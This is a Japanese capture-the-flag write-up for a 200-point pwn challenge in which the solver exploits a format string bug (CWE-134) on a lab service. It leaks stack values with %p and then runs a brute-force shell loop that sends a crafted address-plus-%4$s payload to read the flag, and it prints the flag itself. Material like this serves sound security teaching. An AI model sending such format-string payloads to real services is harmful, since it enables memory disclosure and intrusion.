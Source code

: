 # 1989:Pwn:200pts
脆弱性を調査し、フラグを入手してください。  
`nc 10.1.1.10 13030`  
この設問では Linux ターミナルを使用します。  
[https://ctf.setodanote.net/webshell/](https://ctf.setodanote.net/webshell/)  

# Solution
ソースコードは配布されていない。  
指定されたターミナルを使用すると次のようであった。  
```bash
user@09d9160a1c57:~$ nc 10.1.1.10 13030
===========================================================
   _______          ________            __ ____  _  _   
  / ____\ \        / /  ____|          /_ |___ \| || |  
 | |     \ \  /\  / /| |__     ______   | | __) | || |_ 
 | |      \ \/  \/ / |  __|   |______|  | ||__ <|__   _|
 | |____   \  /\  /  | |____            | |___) |  | |  
  \_____|   \/  \/   |______|           |_|____/   |_|  
                                                        
========================================================== 

        | 
flag    | [0x5659a060] >> flag is here << 
        | 

Ready > flag
Your Inpur : flag
```
CWE-134ということはFSBらしい。  
`%p %p %p %p %p`を入力する。  
```bash
user@09d9160a1c57:~$ nc 10.1.1.10 13030
~~~
        | 
flag    | [0x565cf060] >> flag is here << 
        | 

Ready > %p %p %p %p %p
Your Inpur : 0xffddabc0 0xffddafc8 0x565cc306 0x25207025 0x70252070
```
`0x25207025`が上から四番目にあるために、ここをflagのアドレスにして読み取ればよい。  
アドレスがランダム化されているため、flagのアドレスは`0x56XXX060`で変動する。  
総当たりできそうなので`0x56606060`に決め打ちし以下のように何度も試行する。  
```bash
user@09d9160a1c57:~$ for ((i=0; i<256; i++)); do echo -e "\x60\x60\x60\x56%4\$s" | nc 10.1.1.10 13030 | grep flag{; done
Ready > Your Inpur : ```Vflag{Homenum_Revelio_1989}
```
flagが得られた(チームメンバーが先に解いていた)。  
ちなみに[Shellcode](../Shellcode)で用いた[スクリプト](exploit.py)を流用すると総当たりは不要である。  

## flag{Homenum_Revelio_1989}